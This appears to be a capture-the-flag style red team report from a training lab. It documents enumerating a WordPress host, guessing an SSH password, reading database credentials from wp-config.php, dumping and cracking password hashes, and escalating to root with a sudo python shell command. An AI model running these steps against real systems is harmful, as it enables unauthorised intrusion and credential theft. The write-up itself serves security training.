 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Nmap%20/Nmap_Scan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Servies: 
  - 22/TCP SSH
  - 80/TCP HTTP
  - 111/TCP rpcbind
  - 139/TCP netbios-ssn
  - 445/TCP netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of critical vlunerabilites: 
  - Wordpress Pingback Locator 
  - Usernmae/Password Login Scanner 
  - XMLRPC DoS 
  - GHOST Vulnerability Scanner
  

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/WPScan/WPscan_vuln.png "WPscan vulnerabilities")

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/WPScan/WPscan_users.png "WPscan users")

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_1.png "Flag 1")    
    - **Exploit Used**
      - User Enumeration exploit used to scan the WordPress web application to discover usernames of the WordPress site
      - Command run: wpscan --url http://192.168.1.110/wordpress/ --enumerate u
  - `flag2.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_2.png "Flag 2")   
    - **Exploit Used**
      - Used SSH to gain a user shell via the user profile discover during the User Enumeration exploit. Found Flag 2 under Micahel's profile, after guessing the password, in the var/www directory.
      - Command run: ssh Michael@192.168.1.110
  - `flag3.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_3.png "Flag 3")    
    - **Exploit Used**
      - Obtained MySQL root credentials in the wp-config.php file via Michael's user profile. Explored the wordpress database to uncover Flag 3 in the WordPress table called wp_posts.  
      - Command run: cat /var/www/html/wordpress/wp-config.php 
      - Command run: mysql -u root -p
      - Command run: show databases;
      - Command run: use wordpress;
      - Command run: show tables;
      - Command run: select * from wp_posts;
  - `flag4.txt`: 
  - ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_4.png "Flag 4")    
    - **Exploit Used**
      - Accessed the WordPress database to abstract the user pw hashes (wp_users table) for both users (Michael and Steven). Exfiltrated the password hashes and ran them against the password cracker John. Secured a user shell under the user Steven, checked user priviledges, ran a python command to escalate to root, and obtain Flag 4 in the root home directory.
      - Command run: use wordpress;      
      - Command run: show tables;
      - Command run: select * from wp_users;
      - Command run: SELECT user_pass FROM wp_users INTO OUTFILE '/home/wp_hashes.txt';
      - Command run: john wp_hashes.txt 'from root user on Kali'
      - Command run: ssh Michael@192.168.1.110
      - Command run: su steven
      - Command run: sudo -l
      - Command run: sudo python -c 'import pty:pty.spawn("/bin/bash")'                       
       
